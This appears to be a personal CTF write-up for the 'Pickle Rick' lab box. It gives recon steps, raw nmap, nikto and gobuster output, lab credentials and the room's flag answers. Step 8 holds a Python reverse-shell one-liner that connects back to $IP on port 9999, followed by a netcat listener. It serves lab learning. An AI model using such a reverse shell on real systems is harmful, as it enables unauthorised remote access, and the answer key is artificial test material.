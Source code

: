 # Playbook

(Could use hydra)

1. nmap scan IP address
    - nmap -sC -sV -oN IP
2. Run a nikto scan and log it
   - nikto -h http://IP | tee nikto.log 
   - Check out robots.txt, if it has one
3. Run gobuster
   - gobuster -u http://IP -w /opt/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py
   - there is a login page 
4. Look up source IP 
5. Inspect page source code
6. Command panel is shown, try out commands
    - grep pattern filename -> grep . file.txt
    - while read line; do echo $line; done < clue.txt
7. with a command line, lets set up a reverse shell
   - using python or netcat
   - python3 -c "print('hello')"
8. use pentestmonkey to create a reverse shell with
   - pentestmonkey.net
   - python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
   - nc -lnvp 9999
9. stabalize reverse shell
   - john hammonds - poor mans pentest -> stabalize_shell3.sh and upload_file_nc.sh
10. try to become root and snoop

# stabalizing shell

```
nc -lnvp 9999
CRTL + z
stty raw -echo;fg
ENTER
export TERM=xterm

```


```
export IP=10.10.200.202

```

# results

```
Username: R1ckRul3s

Wubbalubbadubdub



Sup3rS3cretPickl3Ingred.txt
    -> mr. meeseek hair
assets

clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
-> echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | ba0== base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d 
-> rabbit hole

2nd ingredeient: 1 jerry tear

3rd ingredients: fleeb juice



```

# nmap results

```
# Nmap 7.60 scan initiated Wed Jun 28 01:41:28 2023 as: nmap -v2 -sC -sV -oN picklerick 10.10.200.202
Nmap scan report for ip-10-10-200-202.eu-west-1.compute.internal (10.10.200.202)
Host is up, received arp-response (0.00065s latency).
Scanned at 2023-06-28 01:41:28 BST for 8s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:19:a9:19:98:47:e1:1c:d6:c9:93:05:3a:21:f7:31 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXQvVH41KSuadM08ffKn4AJ84TYkDWCZi4GsFZSamPsfWXdwpjZDVrd7i13/AeBHzH1XsKU+Hup7rNRhZMWFCQp2wIZ0ZpE+TnZZYCQ2fLRE6iZt89DEdG69sBQ18u5cQMMLVLLEqNO3UmNK879VV5e44yI+kD9X0oWeQwx9Q7ti7nlhJfU8/7aoju8oMVe9o2q4Ob2I+8wTnhwkJD1bZ1piaQH1DDXsc8KpPRpVsBD4YnYvMS2RoZc8RphexiNPxpoN+O1ZliykH5rkO/vHDmECmuxsCVLelF4nqQ2QagQxD0Kkk1HizHKHAgt+7ZyAru9ujoouZNhFTdkLFh0oQT
|   256 be:28:92:ac:7b:ae:dc:1e:9c:3c:c6:46:d9:7f:61:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBS067AqsZvzoH2Rae/jK9l4jbjnQ990cVCD30qDX0fpi1pwY3t3hSl33C+v1E7rWdkOF/js8RTb3Okledd3xQk=
|   256 e3:aa:0b:c9:71:5b:69:4b:a9:46:ed:6d:fe:5a:34:f5 (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIOfUkbIJjqVzU4y7ZSvm2LaOHH7yS0+j3cIwEa1G92I
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:ED:86:D2:ED:F9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 28 01:41:36 2023 -- 1 IP address (1 host up) scanned in 8.33 seconds
```

# nikto results

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.200.202
+ Target Hostname:    ip-10-10-200-202.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2023-06-28 01:58:08 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-06-28 01:58:17 (GMT1) (9 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

# gobuster results

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.200.202
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,cgi,html,js,css,py,php,sh
[+] Timeout:        10s
===============================================================
2023/06/28 02:22:29 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/denied.php (Status: 302)
/server-status (Status: 403)
/clue.txt (Status: 200)
===============================================================
2023/06/28 02:25:19 Finished
===============================================================
```

# task 1

```
1. What is the first ingredient that Rick needs?
- 1st ingredeient: mr. meeseek hair

2. What is the second ingredient in Rick’s potion?
- 2nd ingredeient: 1 jerry tear

3. What is the last and final ingredient?
- 3rd ingredients: fleeb juice

```